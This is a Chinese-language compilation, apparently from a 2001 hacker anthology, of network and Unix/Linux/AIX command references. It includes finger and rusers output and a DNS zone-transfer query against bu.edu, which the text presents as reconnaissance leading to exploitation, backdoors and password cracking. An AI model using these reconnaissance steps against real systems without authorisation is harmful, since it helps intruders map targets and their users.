该诊断实用程序将包含不同生存时间 TTL 值的 Internet 控制消息协议 ICMP 回显数据包发送到目标，以决定到达目标采用的路由。要在转发数据包上的 TTL 之前至少递减 1，必需路径上的每个路由器，所以 TTL 是有效的跃点计数。数据包上的 TTL 到达 0 时，路由器应该将“ICMP 已超时” 的消息发送回源系统。Tracert 先发送 TTL 为 1 的回显数据包 并在随后的每次发送过程将 TTL 递增 1，直到目标响应或 TTL 达到最大值，从而确定路由。路由通过检查中级路由器发送回的“ICMP 已超时” 的消息来确定路由。不过，有些路由器悄悄地下传包含过期 TTL 值的数据包，而 Tracert 看不到。

```
tracert -d -h maximum_hops -j computer-list -w timeout
```

### 参数

- `-d` 指定不将地址解析为计算机名。
- `-h maximum_hops` 指定搜索目标的最大跃点数。
- `-j computer-list` 指定沿 computer-list 的稀疏源路由。
- `-w timeout` 每次应答等待 timeout 指定的微秒数。
- `target_name` 目标计算机的名称。

## rusers 和 finger

这两个都是 Unix 命令。通过这两个命令，你能收集到目标计算机上的有关用户的消息。

使用 rusers 命令，产生的结果如下所示：

| 用户名 | 主机名 | 终端 | 登录时间 | 空闲 | 登录时长 | 时间 | 状态 |
|---|---|---|---|---|---|---|---|
| gajake | snark.wizard.com | ttyp1 | Nov 13 15 | 42 | 7 | 30 | remote |
| root | snark.wizard.com | ttyp2 | Nov 13 14 | 57 | 7 | 21 | remote |
| robo | snark.wizard.com | ttyp3 | Nov 15 01 | 04 | 01 | | remote |
| angel111 | snark.wizard.com | ttyp4 | Nov 14 23 | 09 | | | remote |
| pippen | snark.wizard.com | ttyp6 | Nov 14 15 | 05 | | | remote |
| root | snark.wizard.com | ttyp5 | Nov 13 16 | 03 | 7 | 52 | remote |
| gajake | snark.wizard.com | ttyp7 | Nov 14 20 | 20 | 2 | 59 | remote |
| dafr | snark.wizard.com | ttyp15 | Nov 3 20 | 09 | 4 | 55 | remote |
| dafr | snark.wizard.com | ttyp1 | Nov 14 06 | 12 | 19 | 12 | remote |
| dafr | snark.wizard.com | ttyp19 | Nov 14 06 | 12 | 19 | 02 | remote |

最左边的是通过远程登录的用户名，还包括上次登录时间，使用的 SHELL 类型等等信息。

使用 finger 可以产生类似下面的结果：

| 用户 | 连接信息 | 日期 | 时间 | 秒 | 状态 | 登录状态 |
|---|---|---|---|---|---|---|
| user S00 | PPP ppp-122-pm1.wiza | Thu Nov 14 21 | 29 | 30 | - | still logged in |
| user S15 | PPP ppp-119-pm1.wiza | Thu Nov 14 22 | 16 | 35 | - | still logged in |
| user S04 | PPP ppp-121-pm1.wiza | Fri Nov 15 00 | 03 | 22 | - | still logged in |
| user S03 | PPP ppp-112-pm1.wiza | Thu Nov 14 22 | 20 | 23 | - | still logged in |
| user S26 | PPP ppp-124-pm1.wiza | Fri Nov 15 01 | 26 | 49 | - | still logged in |
| user S25 | PPP ppp-102-pm1.wiza | Thu Nov 14 23 | 18 | 00 | - | still logged in |
| user S17 | PPP ppp-115-pm1.wiza | Thu Nov 14 07 | 45 | 00 | - | still logged in |
| user S-1 | 0.0.0.0 | Sat Aug 10 15 | 50 | 03 | - | still logged in |
| user S23 | PPP ppp-103-pm1.wiza | Fri Nov 15 00 | 13 | 53 | - | still logged in |
| user S12 | PPP ppp-111-pm1.wiza | Wed Nov 13 16 | 58 | 12 | - | still logged in |

这个命令能显示用户的状态。该命令是建立在客户/服务模型之上的。用户通过客户端软件向服务器请求信息，然后解释这些信息，提供给用户。在服务器上一般运行一个叫做 fingerd 的程序，根据服务器的机器的配置，能向客户提供某些信息。如果考虑到保护这些个人信息的话，有可能许多服务器不提供这个服务，或者只提供一些无关的信息。

## host 命令

host 是一个 Unix 命令，它的功能和标准的 nslookup 查询一样。惟一的区别是 host 命令比较容易理解。host 命令的危险性相当大，下面举个使用实例，演示一次对 bu.edu 的 host 查询。

```
host -l -v -t any bu.edu
```

这个命令的执行结果所得到的信息相当多，包括操作系统、机器和网络的很多数据。先看一下基本信息：

```
Found 1 addresses for BU.EDU
Found 1 addresses for RS0.INTERNIC.NET
Found 1 addresses for SOFTWARE.BU.EDU
Found 5 addresses for RS.INTERNIC.NET
Found 1 addresses for NSEGC.BU.EDU
Trying 128.197.27.7
bu.edu 86400 IN SOA BU.EDU HOSTMASTER.BU.EDU
(
961112121 ; serial version
900 ; refresh period
900 ; retry refresh this often
604800 ; expiration period
```

# 黑客防线精华本 2001

```
86400 ; minimum TTL

bu.edu 86400 IN NS SOFTWARE.BU.EDU
bu.edu 86400 IN NS RS.INTERNIC.NET
bu.edu 86400 IN NS NSEGC.BU.EDU
bu.edu 86400 IN A 128.197.27.7
```

这些本身并没有危险，只是一些机器和它们的 DNS 服务器。这些信息可以用 WHOIS 或在注册域名的站点中检索到。但看看下面几行信息：

```
bu.edu 86400 IN HINFO SUN - SPARCSTATION - 10/41 UNIX
PPP - 77 - 25.bu.edu 86400 IN A 128.197.7.237
PPP - 77 - 25.bu.edu 86400 IN HINFO PPP - HOST PPP - SW
PPP - 77 - 26.bu.edu 86400 IN A 128.197.7.238
PPP - 77 - 26.bu.edu 86400 IN HINFO PPP - HOST PPP - SW
ODIE.bu.edu 86400 IN A 128.197.10.52
ODIE.bu.edu 86400 IN MX 10 CS.BU.EDU
ODIE.bu.edu 86400 IN HINFO DEC - ALPHA - 3000/300LX OSF1
```

从这里，我们马上就发现一台 DEC Alpha 运行的是 OSF1 操作系统。再看看：

```
STRAUSS.bu.edu 86400 IN HINFO PC - PENTIUM DOS/WINDOWS
BURULLUS.bu.edu 86400 IN HINFO SUN - 3/50 UNIX Ouch
GEORGETOWN.bu.edu 86400 IN HINFO MACINTOSH MAC - OS
CHEEZWIZ.bu.edu 86400 IN HINFO SGI - INDIGO - 2 UNIX
POLLUX.bu.edu 86400 IN HINFO SUN - 4/20 - SPARCSTATION - SLC
UNIX
SFA109 - PC201.bu.edu 86400 IN HINFO PC MS - DOS/WINDOWS
UH - PC002 - CT.bu.edu 86400 IN HINFO PC - CLONE MS - DOS
SOFTWARE.bu.edu 86400 IN HINFO SUN - SPARCSTATION - 10/30
UNIX
```

```
CABMAC.bu.edu 86400 IN HINFO MACINTOSH MAC - OS
VIDUAL.bu.edu 86400 IN HINFO SGI - INDY IRIX
KIOSK - GB.bu.edu 86400 IN HINFO GATORBOX GATORWARE
CLARINET.bu.edu 86400 IN HINFO VISUAL - X - 19 - TURBO X -
SERVER
DUNCAN.bu.edu 86400 IN HINFO DEC - ALPHA - 3000/400 OSF1
MILHOUSE.bu.edu 86400 IN HINFO VAXSTATION - II/GPX UNIX
PSY81 - PC150.bu.edu 86400 IN HINFO PC WINDOWS - 95
BUPHYC.bu.edu 86400 IN HINFO VAX - 4000/300 OpenVMS
```

可见，任何人都能通过在命令行里键入一个命令，就能收集到一个域里的所有计算机的重要信息，而且只花了 3 秒时间。

我们利用上述有用的网络命令，可以收集到许多有用的信息，比方一个域里的名字服务器的地址，一台计算机上的用户名，一台服务器上正在运行什么服务，这个服务是哪个软件提供的，计算机上运行的是什么操作系统。

如果你知道目标计算机上运行的操作系统和服务应用程序后，就能利用已经发现的漏洞来进行攻击。如果目标计算机的网络管理员没有对这些漏洞及时修补的话，入侵者就能轻而易举地闯入该系统，获得管理员权限，并留下后门。

如果入侵者得到目标计算机上的用户名后，能使用口令破解软件，多次试图登录目标计算机。经过尝试后，就有可能进入目标计算机。得到了用户名，就等于得到了一半的进入权限，剩下的只是使用软件进行破解而已。

## AIX 常用命令

- 查看交换区信息：
  - lsps -a 显示交换区的分布信息
  - lsps -s 显示交换区的使用信息
  - slibclean 清除处理程序遗留的旧分页信息
  - smit mkps 建立交换区空间信息
  - swapon -a 启动所有的分页空间
  - /etc/swapspaces 存放分页空间表格信息
- 显示卷信息：
  - lsvg 显示卷的名称
  - lsvg -l rootvg 显示 rootvg 卷的详细信息
- mount 卷的方法：
  - varyonvg datavg 加载 datavg 卷
  - mount /dev/data1 加载 datavg 下的一个 data1 卷
- 裸设备类型：raw jfs jfs 可以转变成文件系统，而 raw 则不行
- 在裸设备上安装 oracle 系统：
  - 修改裸设备的权限，如裸设备名为 system01，安装数据库用户为 oracle
  - chown oracle:dba /dev/system01
  - chown oracle:dba /dev/rsystem01
  - 在使用文件时必须用 rsystem01
- smit 快速路径名称： smit：图形方式，smitty：字符方式
- dev 设备管理
- diag 诊断
- jfs 定期档案管理系统
- lvm 逻辑卷册系统管理员管理
- nfs NFS 管理
- installp 软件安装及维护
- spooler 列印队列管理
- system 系统管理
- tcpip TCP/IP 管理
- USER 使用者管理
- clstart, clstop：启动和停止 cluster
- lssrc -g cluser：查看 cluser 的状态
- 查看已安装的软件信息：
  - ls -aF /usr/lpp lpp：Licensed Program Products
- 查看安装媒体内容：
  - installp -q -d /dev/cdrom -l
- 启动时自动加载文件系统信息：

需要加载的信息存放在 /etc/filesystems

mount -t nfs 加载所有在 /etc/filesystems 中定义 type=nfs 的文件系统

显示已加载的文件系统及状态：df -v, mount

查看错误日志信息：

errpt -a

## 有关 TCP/IP 的命令

- 网卡：
  - smit chgenet chgtok chgfddi opschange mktty：adapter 架构快速路径
  - smit mkinet ppp：slip 与 ppp 快速路径
  - ifconfig：config 界面
- 地址：
  - /etc/hosts 静态主机表
  - /etc/resolv.conf 地址解析的名称服务器
  - /etc/named.boot 名称服务器架构
  - /etc/named.ca 根名称服务器缓存
  - /etc/named.data 地址列表
  - /etc/named.rev 反向指标列表
  - nslookup 查询名称服务器资讯
- 网络路由：
  - route 管理路由
  - netstat -rn 列出定义的路由
  - routed 路由 daemon rip
  - gated 路由 daemon rip、egp、hello
  - /etc/gateways 已知网关
  - /etc/networks 已知网络
- 服务：
  - /etc/services
  - /etc/inetd.conf
- TCP/IP 群组子系统：
  - /etc/rc.net
  - startsrc -g tcpip 启动全部的 tcpip 子系统
  - startsrc -s inetd 启动主要 internet
- 除错：
  - iptrace 启动封包追踪
  - ipreport 追踪结果格式化输出
  - netstat 网络统计
  - ping 检查是否可以到达
- 查看 HACMP，外部硬盘信息：
  - lscfg -v
  - lsdev -Cc adapter
- 对等机器信息：
  - /etc/.rhosts
  - /etc/hosts.equiv
  - /etc/hosts

观察进程内存使用情况：
ps aux 观察参数%mem：内存使用百分比 RSS：实际使用内存
vmstat free 的单位为块，缺省值为 4096 bytes
创建 raw 设备时选择的类型：
raw_lv

## Ftp 命令大全

的命令行格式为：ftp -v -d -i -n -g 主机名，其中 -v 显示远程服务器的所有响应信息；-n 限制 ftp 的自动登录；-d 使用调试方式；-g 取消全局文件名；-i 多文件进行传输时，关闭交换提示；-s 指定一个文本文件，当 ftp 开通时自动运行其中的命令（该参数中不允许有空格）；-a 捆绑数据连接时使用任一本地接口；-w buffersize 替代默认流量大小为 4096 的缓冲器；-host 指定主机名或 ip 地址，去连接的远程主机。

Ftp 使用的内部命令如下：

- 1. `:` 在本地机中执行交互 shell，exit 回到 Ftp 环境。
- 2. `$ macro -name`：执行宏定义 macro -name。
- 3. append：将本地文件追加到远程系统主机；若未指定远程系统文件名，则使用本地文件名。
- 4. ascii：使用 ascii 类型传输方式。
- 5. bell：每个命令执行完毕后计算机响铃一次。
- 6. binary：使用二进制文件传输方式。
- 7. bye：退出 Ftp 会话过程。
- 8. cd：进入远程主机目录。
- 9. close：中断与远程服务器的 Ftp 会话（与 open 对应）。
- 10. delete remote-file：删除远程主机文件。
- 11. debug debug-value：设置调试方式，显示发送至远程主机的每条命令，若设为 0，表示取消 debug。
- 12. dir：显示远程主机目录，并将结果存入本地文件。
- 13. disconnection：同 close。
- 14. get：将远程主机的文件传至本地硬盘。
- 15. glob：设置 mdelete，mget，mput 的文件名扩展，缺省时不扩展文件名，同命令行的 -g 参数。
- 16. hash：每传输 1024 字节，显示一个 hash 符号 #。
- 17. help：显示 Ftp 内部命令的帮助信息，如：help command（一个命令）。
- 18. lcd：将本地工作目录切换至 dir。
- 19. literal：传送任一 Ftp 命令。
- 20. ls：显示远程目录，并存入本地文件。
- 21. mdelete：删除远程主机文件。
- 22. mdir：与 dir 类似，但可指定多个远程文件。
- 23. mget：传输多个远程文件。
- 24. mkdir：在远程主机中建一目录。
- 25. mls：显示远程主机目录的清单并存入本地硬盘，可指定多个文件名。
- 26. mput：将多个文件传输至远程主机。
- 27. open host：建立指定 Ftp 服务器连接，可指定连接端口。
- 28. prompt：设置多个文件传输时的交互提示。
- 29. put：将本地文件传送至远程主机。
- 30. pwd：显示远程主机的当前工作目录。
- 31. quit：同 bye，退出 Ftp 会话。
- 32. quote arg1, arg2...：将参数逐字发至远程 Ftp 服务器。
- 33. recv：同 get，将远程主机的文件传至本地硬盘。
- 34. rhelp：请求获得远程主机的帮助。
- 35. rename：更改远程主机文件名。
- 36. rmdir dir-name：删除远程主机目录。
- 37. send：同 put，将本地文件传送至远程主机。
- 38. status：显示当前 Ftp 状态。
- 39. trace：设置包跟踪。
- 40. type：设置文件传输类型为 type-name，缺省为 ascii。
- 41. user user-name：向远程主机表明自己的身份，需要口令时，必须输入口令，如 :user root passwd 表明自己是 root，passwd 是自己的密码。
- 42. verbose：同命令行的 -v 参数，即设置详尽报告方式，ftp 服务器的所有响应都将显示给用户，缺省为 on。
- 43. `:` 同 help，显示 Ftp 内部命令的帮助信息。

## POP3 命令简介

首先请参看 RFC 1939 中介绍的 POP3 命令。

一般 telnet pop3Server 110 后就可以用这些命令了，大小写不敏感，不包括口令本身，注意不要让口令回显，等验证通过后再允许回显。

| 命令 | 状态/处理 | 说明 |
|---|---|---|
| user username | 认可 | |
| pass password | 认可 | 执行成功则状态转换 |
| apop name digest | 认可 | 一种安全传输口令的办法，执行成功导致状态转换，请参见 RFC 1321 |
| stat | 处理 | 请求 server 回送邮箱统计资料，如邮件数、邮件总字节数 |
| uidl n | 处理 | server 返回用于该指定邮件的唯一标识，如果没有指定，返回所有的 |
| list n | 处理 | server 返回指定邮件的大小等 |
| retr n | 处理 | server 返回邮件的全部 |
| dele n | 处理 | server 标记删除，quit 命令执行时才真正删除 |
| rset | 处理 | 撤消所有的 dele 命令 |
| top n m | 处理 | 返回 n 号邮件的前 m 行内容，m 必须是自然数 |
| noop | 处理 | server 返回一个肯定的响应 |
| quit | | client 希望结束会话。如果 server 处于“处理”状态，则现在进入“更新”状态，删除那些标记成删除的邮件。如果 server 处于“认可”状态，则结束会话时 server 不进入“更新”状态。 |

### 关于 apop 命令

如果 client 使用 user 命令，口令将是明文。使用 apop 命令时，client 第一次与 server 连接时，server 向 client 发送一个 ascii 码问候，该问候由一个字符串组成，它对于每个 client 的连接都是惟一的；client 把它的纯文本口令附加到从 server 接收到的字符串之后，然后计算结果字符串的 MD5 摘要；client 把 username 和 MD5 摘要作为 apop 命令的参数一起发送出去。

```
telnet pop3Server 110
user username
pass ****
stat
list
retr 1
retr 2
...
delete 1
delete 2
...
quit
```

## Linux 操作系统下的一些命令

Linux 有许多许多命令和 Unix 操作系统是一致的。要想成为一个名副其实的黑客，不会操作 Linux 系统是不行的。现在我就为大家介绍一些简单的 Linux 命令，希望对大家有所帮助。

如果把所有的 Linux 命令都介绍出来，我想可以写一本书，所以我还是尽量选择常用的命令来介绍吧。

- 1. Man：
  Man 这个命令就是显示一个命令的作用，以及命令的使用方式和参数。你可以先试试：
  在 Linux 下。
  man man，你将会看到许多东西，就像我所说的那样，man 这个命令是用来显示一个命令的作用和使用方式以及参数的命令，所以你看到的内容便是介绍 man 这个命令的。当然你也可以输入 man 空格加上其他的命令，显示其他命令的相关内容。

- 2. Apropos <parameter>
  这个命令等同于 man -k <parameter> 这个命令，这个命令是执行关键词搜索。

- 3. Ash
  ash 是一个简单的 shell，特性和 sh 或者 Bourne shell 相似。Ash 通过符号链接 bsh 而运行。

- 4. At
  at 在指定的时间运行程序。

- 5. Atq
  使用 atq 列出所有等待作业的队列。

- 6. Atrm
  使用 atrm 删除指定的作业。

- 7. Banner
  banner 命令可用来向标准输出打印大的、高质量的标题，若信息遗漏，它将进行提示并从标准输入来读取一行。

- 8. Cat
  cat 空格加文件名，这个命令一般是用来读文件内容的。这时这个命令有点像 more 的功能。
  ```
  cat file.txt | sort
  ```
  这是将 cat 命令的输出通道管道作为 sort 命令的输入对文件进行排序。
  ```
  cat files
  ```
  >>
  这个命令是在 >> 后面填写内容加到 file.txt 文件中。
  ```
  cat file1 >> file2
  ```
  这个命令是把 file1 的内容拷贝到 file2 中，原文件不变。也许你以后会配置 apache 服务器，如果你希望单文件配置，就要把 srm.conf 和 access.conf 两个文件与 httpd.conf 这个文件合而为一。就可以用这个命令来实现：cat srm.conf >>httpd.conf
  cat access.conf >>httpd.conf.

- 9. Chfn
  chfn 命令是用来改变 finger 信息，可以使用该命令输入或者修改由 finger 网络工具使用的信息。

- 10. Chgrp
  这个命令用来改变文件或目录所属的用户组，与文件或目录的权限有关。

- 11. Chmod
  这个命令用来改变对象的访问权限，也就是改变文件模式。一般情况下有两种方法来改变。你可以在 Linux 下面先使用 ls -l 命令，你可以看见你所在目录的文件的权限。
  ```
  rwxrwxr-x 23 root sys 512 Apr 11 1999 opt
  ```
  这上面显示了一个文件的权限，w 是 write，指的是写权限；r 是 read，指的是读权限；X 指的是可执行权限。权限分为三组，第一组是拥有者的权限，第二组是同组的权限，第三组是其他用户权限。你可以直接这样改，也可以使用一些数字来代替它们，4 表示读，2 表示写写, 1 表示可执行。所以你可以用一个三位数字来代替这三组的读写权限。比如说：要想使文件 file 的拥有者具有读、写和执行权限，而其他用户不具有任何权限，可以这样设置：chmod 700 file，依此类推。

- 12. Chown
这个命令是用来改变文件或目录的用户。只有文件的拥有者和系统管理员才能改变文件的用户 ID。比如：chown user file。

- 13. Chroot
这个命令用来把文件系统中的根目录设置为其他目录而不是 /。

- 14. Chsh
这个命令更改登录到 Linux 系统使用的 shell 类型。一般可以通过这样设置改变目录。

- 15. Cp
这个命令就是拷贝。比如：cp file1 file2，是把文件 file1 拷贝到 file2。

- 16. Cpio
这个命令是复制文件到档案文件或者从档案文件中读出文件。

- 17. Cut
这个命令就是从输入文件中截取一些列或者字段。

- 18. Df
这个命令就是显示使用的硬盘空间，这个命令你会常用，你可以看看 Linux 的分区情况。用 df -k 可以用来检查磁盘空间。

- 19. Du
这个命令显示各种文件和目录所使用的硬盘空间数，并且可以显示系统中最多或者最少的硬盘空间的位置。

- 20. Find
这个命令是用来查找文件的。我之所以把它选择出来，就是因为它和 ls 不一样，用它可以进行一些复杂的查找，可以使用通配符组合所要查找文件的形式。

- 21. Finger
这个命令是在本地计算机或者其他计算机系统中查找用户信息。

- 22. ftp
这个命令是用来进行文件传输的，可以与其他地址的计算机进行信息交换。

- 23. Hostname
这个命令用来显示系统当前的主机名和域名，也可以由 root 用来设置系统的主机名。

- 24. Halt
这个命令是关闭系统，相当于 shutdown now 命令，只能由 root 执行。

- 25. Ifconfig
这个命令是用于配置网络接口的几种程序之一，通常由 root 使用。这个命令我来详细的介绍一下。配置网络时可能会用到这个命令，当然也有机器用 netconfig 的命令。
ifconfig interface ip-address 是用来配置基本接口，比如 ifconfig eth 202.202.202.202 是配置一个以太接口，它的地址是 202.202.202.202。
ifconfig interface down/up，是用来激活和禁用一个接口。
ifconfig -a，可以显示所有激活的接口的状态信息。
ifconfig eth0:0...，是追加别名。

- 26. Kill
这个命令向进程号发送指定的信号，可以重启和关闭进程。这个命令常和 ps 命令结合在一起，如：ps -eaf | grep files 这可以检查名为 files 的进程号，检查出进程号后，就可以

- 27. Less
这个命令和 more 差不多，它允许文件前后移动。

- 28. Ls
这个命令显示目录，可以加参数进行输出设置。这是个常用命令。我就不多介绍了。

- 29. Man
这个命令用来显示联机手册页，通常可以用它来看别的命令的使用方法。

- 30. Mkdir
这个命令用来创建新的目录。

- 31. Mkfs
这个命令是用来在某一设备上创建 Linux 文件系统，但是它不格式化所创建的文件系统。

- 32. More
这个命令前面已经提到过，和 less 相似，分屏显示文件内容，只可以向下翻页。

- 33. Mount
这个命令用来把文件系统加载到指定的目录上。

- 34. Mv
这个命令把一个对象从一位置移到新的位置，相当于删除复制。

- 35. Passwd
这个命令用来改变或者设置口令。

- 36. Rm
这个命令用来删除指定的文件。

- 37. Rmdir
这个命令用来删除指定的空目录。

- 38. Route
使用 route 显示或者配置 IP 路由表。这是可用于监控接口的通信。比如：route add/del default gw ip-address ppp0，这是加一个网关接口地址在 ppp0 上。

- 39. Ping
这个命令请求来自网络主机的数据包响应。这个命令也不多讲了。

- 40. Ps
这个命令是提供进程的内容。

- 41. Pwd
这个用来命令用来显示当前的工作目录。

- 42. Quota
这个命令报告配额设置。

- 43. Rm
这个命令用来删除指定的文件。

- 44. Rmdir
这个命令用来删除指定的空目录。

- 45. Shutdown
这个命令是用来关闭系统的，可以加上一些参数设置关闭的时间与方式。

- 46. Tail
这个命令用来把某一给定的文件的最后 10 行打印到标准输出。如果没有给定文件，它将从标准输入读取。

- 47. Talk
这个命令可以与在线的其他用户交流，当对方有回应后，两人都可以看到输出的内容。

- 48. Tar
这个命令用来存储和展开文件的存档程序，压缩和解压文档。

- 49. Telnet
这个命令，远程登录。

- 50. Touch
这个命令用来创建文件或者更新时间。

- 51. Umount
这个命令用来卸载文件系统。

- 52. Uptime
这个命令用来显示计算机已运行的时间。

- 53. Vi
这个命令用来调用 vi 编辑器。你也可以通过这个命令来读取一些文件的内容，相当于 more 命令。

- 54. W
这个命令用来显示在系统中登录的用户。

- 55. Whatis
这个命令搜索 whatis 数据库查找命令并输出每个命令的一行的概述。

- 56. Whereis
这个命令查找命令、命令源以及手册页。

- 57. Who
这个命令显示当前在线用户，相当与 whois。

## UNIX作业系统操作简介

UNIX 是个多人多工作业系统。另外，UNIX 有很多种，如 AT&T UNIX SVR4、SunOS 4.1.3、HP-UX R8、AIX V3、XENIX、Linux 等等，国内学校工作站以使用 SunOS 为主流，各系统大同小异。下面介绍其基本指令的操作。

### 一、命令格式

命令 选项 处理对象

```
例 ls -la mydir
```

命令一般是小写字串，注意大小写有别。

选项通常以减号 `-` 再加上一个或数个字元表示，用来选择一个命令的不同操作。同一行可下数个命令，命令间应以分号隔开。

命令之后加上 `&` 可使该命令背景执行。

- 一般在 shell 下执行程式，我们必须等刚下过的指令执行结束后，才能继续下指令，这就是前景执行。如果程式执行时间太长，不想等待它，可将该程式放至背景执行，此时就可继续做别的事了。

UNIX 命令列有不少保留字，如 `\`、`&`、`|`、`>`、`<`、` `、`/`、`$`、`*` 等，这些字元均有特殊解译。如果命名或参数要用到保留字，请在保留字之前加上反斜线 `\`，例如 `\ ` 代表空格，`\` 代表 `\`。

线上求助指令——man 可在线上用来查询各种命令用法（manual page）的指令。

例：man ls 查询 ls 这个指令的用法

man man 查询 man 指令的用法

以大部分指令仅列简要说明，详细用法可用 man 查询。为节省篇幅，举例不多，读者需时常上机使用才能真正熟悉指令的用法。

### 二、档案及目录指令

和 DOS 相似，UNIX 采用阶层式目录管理结构，由根目录 `/` 开始一层层将子目录建下去，各阶层目录以 `/` 隔开。

home directory：使用者 login 时，工作目录的位置，是由系统管理者所设定。“~” 符号代表自己的 home directory，例如 `~/myfile` 是指自己 home 目录下 myfile 这个档案；`~b82000/bin/qkmj` 代表 b82000 的 home 目录下，bin 目录内 qkmj 档案。

档名有区分大小写，长度可达 256 字元（随系统而异），且不限点号 `.` 的数目。隐藏档：档名或目录名以 `.` 开头即为隐藏档。

. 表示目前所在目录

.. 表示上一层目录

UNIX 的万用字元有 3 种，`*` 和 `?` 用法和 DOS 相同，另可用 `...` 代表区间内的任一字元，如 `test0-5` 即代表 `test0` `test1` ... `test5` 的集合。

以下是 ls -l 指令输出的例子，分别介绍各栏位的意义：

```
total 63
drwx------ 4 b1503045 1536 Feb 13 16 37 Mail
drwx------ 2 b1503045 512 Jan 9 16 26 News
drwx------ 2 b1503045 512 Feb 7 00 46 bin
drwx------ 2 b1503045 1024 Nov 1 16 43 c
-rw------- 1 b1503045 3051 Feb 7 01 49 dial-up
-rw-r----- 1 b1503045 37106 Feb 13 02 00 wwwfaq1
drwx------ 2 b1503045 512 Aug 11 1994 doc
lrwxrwxrwx 1 b1503045 11 Sep 5 20 36 docs -> /remote/doc
drwxr-xr-x 2 b1503045 512 Feb 7 00 43 pub
```

档案形式：

- 一般档案。
- d 目录。
- l 符号链接档（symbolic link file），用 `ln -s` 命令造成的，上例中，`cd docs` 和 `cd /remote/doc` 的效果是一样的。
- c 字元式周边设备，以一个字元一个字元方式传输，如终端机。
- b 区块式周边设备，能一次大量传输，如磁盘机。
- s socket 档。

档案存取权限：共 9 个字元，每 3 个分为一组，共 3 组 rwx 的组合。前 3 个 rwx 是档案拥有人的权限，中间 3 个是所属群体（group）的权限，最后 3 个是其他人的使用权限。

rwx 代表的意义如下：

| 权限 | 对档案而言 | 对目录而言 |
|---|---|---|
| r | 可读此档 | 可得知目录内有哪些档案 |
| w | 可修改此档 | 可在此目录内建档及杀档 |
| x | 可执行此档 | 可进入此目录内 |
| - | 无此使用权 | 无此使用权 |

- 所谓的所属群体 (group)，在台大计中 ccsun 工作站，同系学生定为同一 group；在系计中 cctwin 工作站，同年级学生定为同一 group。
- 以上例而言，wwwfaq1 这个档案自己可以读写，同一 group 的人只能读，其他人对此档完全没有存取权。
- 自己的档案，可用 chmod 指令改变其存取权，有两种使用方法，如下：

八进位法 ——chmod <八进位数> <档案>

此方法如同在填体育选课志愿卡，共 3 个八进位数字，r=4, w=2, x=1, -=0。例如 `-rwxr-xr-x` 为 755，`rw-r-----` 为 640。如上例，若下 `chmod 644 dial-up` 即可将 dial-up 这个档的存取权从 600 变成 644，亦即让其他人均可读此档案。

其实最前面还有一个八进位数，但很少用到，其意义如下：

- 4000 程式执行时，设定使用者识别码 SUID 位元为 on
- 2000 程式执行时，设定使用者所属团体识别码 SGID 位元为 on
- 1000 sticky bit on，程式执行后会常驻记忆体。

符号法 ——chmod <who op 存取权> <who op 存取权> ... <档案>

<who>
- u user 档案拥有者
- g group 所属 group
- o other 其他使用者
- a all 包括 u g o

<op>
- + 加上存取权
- - 除去存取权
- = 重新设定存取权

<存取权>有 r w x s t (常用前 3 者)

例如，`chmod u-w wwwfaq1` 让自己不能更改 wwwfaq1 这个档案，`chmod a+x a+r bin` 允许所有人进入 bin 目录并可查看有哪些档案。

档案连结 (link) 次数。

档案拥有者。超级使用者 (系统管理员) 为 root。

档案大小，单位为 byte。

档案内容最近一次更新时间。

档案名称。

### 指令简介

- ls 列出目录内档案名称 (如 DOS 的 dir/w)
- ls -l 除了列出档名外，并列出档案属性及拥有者、档案大小及建立时间等资讯
- ls -a 列出所有档案，包括隐藏档
- ls -R 递回地列出所有档案 (子目录内所有档案亦列出)
- ls -F 依档案格式分类
可执行档档名后加 `*`，目录名称后加上 `/`，link 档档名加上 `@`。
- pwd 查询目前所在之目录名称
- cd 更换目前工作目录位置
若只打 cd 不加目录名，则回到自己的 home directory。回到上一层目录，必须打 `cd ..`，cd 和 .. 中间要有空白。

- cat 查看文字档内容
- more 以一页一页方式显示一个文字档
当最后一行出现 `-- more 16% --`，表示你已看了 16% 的文章。此时可用 more 内的指令：
- space 往下卷动一页
- Enter 往下卷动一行，若先键入数字再按 Enter 可下卷指定的行数
- q 或 Q 停止输出，回到系统提示符号
- h 显示可用指令及其功能
- cp <原始档> <复制档> 就是 copy 啦！
- mv <原始档> <目的档> 若原始档和目的档在同一目录下，可更改档名，若加上路径名，可在目录间搬移档案
- rm 删除档案，若加上 `-i` 会徵求确认后删除
- rm -r <目录名> 删除该目录及该目录之下的所有档案
- rm -rf 同上，但不会先征求确认
注：UNIX 没有 undelete，杀档前请确定你的大脑很清醒。
- mkdir 建立子目录
- rmdir 删除子目录，目录内须无档案
- chmod 设定档案或目录的存取权限
- lpr 将档案放进 printer queue 中等候列表
- lpq 显示 printer queue 的内容
- lp 打印资料
- lpstat 查询打印状态与打印机相关资讯
- pr 文字档之格式化输出进阶指令
- grep 于档案中寻找特定字串
例：grep fopen *.c 可印出所有 *.c 档案中，有 fopen 字串的那一行。
- tail 打印档案最后 10 行内容
- tail -200 印出档案最后 200 行内容
- which 查询某个执行档是放在哪个路径之下
- od 以八进位查看档案内容
- ln 连接 link 档案
- ln -s symbolic link
- wc 计算档案的行数、字数及字元数
- touch 更改档案修改或被存取时间
- diff 档案比较
- find 档案搜寻
- df 显示可使用之档案储存空间及档案数目
- du 计算磁盘机使用情形
- umask 建档时，取消部份存取权
- tee 将 stdin 输出到 stdout 并复制一份於档案中

### 三、通信指令

### 指令简介

- rusers 查看有哪些人上机
- ku 比 rusers 更好用，并提供 finger talk write mail 等功能。
- mesg y 接受其他使用者讯息（系统预设值）
- mesg n 拒绝其他使用者讯息

talk 线上一对一交谈系统，对方必须在线上才能使用，可让同一主机或使用相同网路协定的不同主机的使用者交谈，若要使用中文请用 ctalk。

- 例如，若你使用台大计中工作站，发现你的朋友 b2503000 正在使用 ccsun22 这台机器，可下 `talk b2503000@ccsun22` 这个指令，接著等待回音，若对方愿意和你聊天，则萤幕画面将会分为上下两部分，上半部分为自己输入的讯息，下半部分则是对方的应答。
- 按下 Ctrl + C 可结束对话
- 若 b2503000 要和你聊天时，会出现如下画面

```
Message from Talk_Daemon at 11 21
talk connection requested by b2503000@ccsun22
talk respond with talk b2503000@ccsun22
```

- 若想回答请输入 `talk b2503000@ccsun22` 再按 Enter 即可
- 此时若屏幕内容混乱，在某些软件中可按 Ctrl + L 重绘屏幕文字，若你正在编辑文件，该文件也不会受影响，仍可继续编辑。
- 若你不想和他 talk，可用 mesg n 命令拒绝。
- 若远方机器与本地机器相容，亦可使用此命令和远方机器使用者聊天，例如：`talk u8234567@ccsun19.cc.nctu.edu.tw` 即可和交大 ccsun19 上的 u8234567 聊天
- finger 可查询本地机器或远方机器使用者简要资料

```
例：finger b1503045@cc.ntu.edu.tw
```

